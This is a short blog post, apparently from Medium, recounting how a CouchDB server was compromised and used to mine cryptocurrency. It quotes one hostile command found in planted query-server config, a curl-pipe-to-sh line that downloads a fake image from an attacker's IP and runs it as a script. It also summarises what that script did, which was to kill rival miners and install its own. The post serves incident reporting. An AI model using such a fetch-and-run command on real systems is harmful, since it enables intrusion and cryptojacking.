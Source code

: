 ```yaml
---
title: "CouchDB RCE Attack!"
description: "A few months ago, the server that ran our CouchDB instance went down. Upon further investigation, we find that the CPU usage was at 100%!!! That’s really odd because CouchDB isn’t a very resource…"
date: "2018-04-20T19:45:14.183Z"
categories: 
  - JavaScript

published: true
canonicalLink: https://medium.com/filiosoft/couchdb-rce-attack-573ba7a512df
---
```


A few months ago, the server that ran our CouchDB instance went down. Upon further investigation, we find that the CPU usage was at 100%!!! That’s really odd because CouchDB isn’t a very resource intensive process. When I investigated further, I found that CPU usage on the VM had been hovering around 90% CPU since late November! I also found a few databases that shouldn’t have been there. As well as config that shouldn’t have been there. There were Query Servers that did something like this:

\`\`\`

curl http://<ip-address>/photo.jpg | sh

\`\`\`

I was immediately suspicious. Why would there be a query server that downloads an image and runs it as a script? Unless there was someone was being malicious.

I looked at the script and found that it did a few things. First, it attempted to kill off quite a few processes. Things like \`minergate\`, \`xmrig\`, and more. Most of them appeared to be crypto miner processes. After cleaning all those up, it downloaded it’s own crypto miner and started it. It also changed some kernel params.

[https://justi.cz/security/2017/11/14/couchdb-rce-npm.html](https://medium.com/r/?url=https%3A%2F%2Fjusti.cz%2Fsecurity%2F2017%2F11%2F14%2Fcouchdb-rce-npm.html)